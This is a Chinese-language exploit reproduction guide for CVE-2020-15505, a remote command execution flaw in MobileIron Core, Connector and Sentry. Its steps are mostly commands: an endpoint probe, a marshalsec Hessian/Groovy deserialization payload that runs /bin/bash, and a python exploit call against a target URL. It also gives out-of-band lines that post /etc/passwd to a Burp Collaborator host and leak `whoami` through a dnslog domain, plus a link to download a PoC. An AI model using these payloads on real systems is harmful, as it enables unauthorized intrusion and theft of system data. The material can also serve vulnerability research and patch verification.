 （CVE-2020-15505）MobileIron 远程命令执行漏洞
=============================================

一、漏洞简介
------------

MobileIron Sentry等都是美国思可信（MobileIron）公司的产品。MobileIron
Sentry是一款智能网关产品。MobileIron
Core是一款MobileIron平台的管理控制台组件。MobileIron
Connector是一款MobileIron平台的连接器组件。 MobileIron Core
10.6及之前版本、Connector 10.6及之前版本和Sentry
9.8及之前版本中存在安全漏洞。远程攻击者可利用该漏洞执行任意代码。

二、漏洞影响
------------

MobileIron Core 10.6及之前版本、Connector 10.6及之前版本和Sentry
9.8及之前版本

三、复现过程
------------

访问`https://www.0-sec.org/mifs/.;/services/LogService`

![5.png](./.resource/(CVE-2020-15505)MobileIron远程命令执行漏洞/media/rId24.png)

确认存在该漏洞位置连接。

在vps执行

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian Groovy "/bin/bash" "-c" "<Command>" > exp.ser

![1.png](./.resource/(CVE-2020-15505)MobileIron远程命令执行漏洞/media/rId25.png)

然后再执行

    python hessian.py -u 'https://target.0-sec.org/mifs/.;/services/LogService' -p exp.ser

![2.png](./.resource/(CVE-2020-15505)MobileIron远程命令执行漏洞/media/rId26.png)

**dnslog 使用姿势补充**

    curl http://xxxxx.burpcollaborator.net -F "file=@/etc/passwd;"

    ping `whoami`.xxx.dnslog.cn"

![3.png](./.resource/(CVE-2020-15505)MobileIron远程命令执行漏洞/media/rId27.png)

### poc

> https://download.0-sec.org/Web安全/MobileIron/CVE-2020-15505.zip

参考链接
--------

> https://github.com/iamnoooob/CVE-Reverse
